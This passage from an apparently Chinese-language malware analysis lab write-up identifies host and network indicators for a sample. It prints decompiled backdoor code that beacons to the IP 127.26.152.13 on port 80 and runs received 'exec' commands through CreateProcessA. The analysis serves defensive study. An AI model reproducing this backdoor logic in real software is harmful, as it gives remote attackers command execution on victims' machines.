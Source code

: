 ```assembly
CALLED POS 0 ==> 749
0x17e5: push    edx
0x17e6: call    esi
0x17e8: push    0
0x17ea: push    0x40304c
0x17ef: push    0x40307c
0x17f4: call    dword ptr [0x402024]
```

通过之前对链接库的分析，我们知道这个字符串作为 `0x402024` 这个函数（即 `CopyFileA`）的参数进行了调用。

### 结论

综上，我们还可以通过 `C:/Windows/System32` 这个文件夹下是否存在 `kerne132.dll` 这个文件来判断主机是否被感染。

## QUESTION 6

> What network-based indicators could be used to find this malware on infected machines?

根据前面的分析，可执行文件通过将动态链接库复制到 `C:/Windows/System32` 这个文件夹下，然后通过这个动态链接库进行进程、网络相关的动作，因此我们分析这个动态链接库。`.data` 段全局字符串：

![01.dll.PEexplorer.data](../01.dll.PEexplorer.data.png)

其中 `exec` 和一个 `127.26.152.13` 这个为 IP 地址格式的字符串非常可疑。为了分析该动态链接库的网络特征，我们查找调用第二个字符串的位置 `.text:100010A3`，使用 `IDA Pro` 分析出以下的伪代码：

```c
//...
v3 = socket(2, 1, 6);
if ( v3 != -1 )
{
    name.sa_family = 2;
    *(_DWORD *)&name.sa_data[2] = inet_addr(cp);
    *(_WORD *)name.sa_data = htons(0x50u);
    if ( connect(v3, &name, 16) != -1 )
    {
        while ( send(v3, ::buf, strlen(::buf), 0) != -1 && shutdown(v3, 1) != -1 )
        {
            if ( recv(v3, &buf, 4096, 0) > 0 )
            {
                if ( !strncmp(Str1, &buf, 5u) )
                {
                    Sleep(0x60000u);
                }
                else if ( !strncmp(aExec, &buf, 4u) )
                {
                    memset(&StartupInfo, 0, sizeof(StartupInfo));
                    StartupInfo.cb = 68;
                    CreateProcessA(0, &CommandLine, 0, 0, 1, 0x8000000u, 0, 0, &StartupInfo, &ProcessInformation);
                }
                else
                {
                    if ( buf == 113 )
                    {
                        CloseHandle(hObject);
                        break;
                    }
                    Sleep(0x60000u);
                }
            }
        }
    }
    closesocket(v3);
```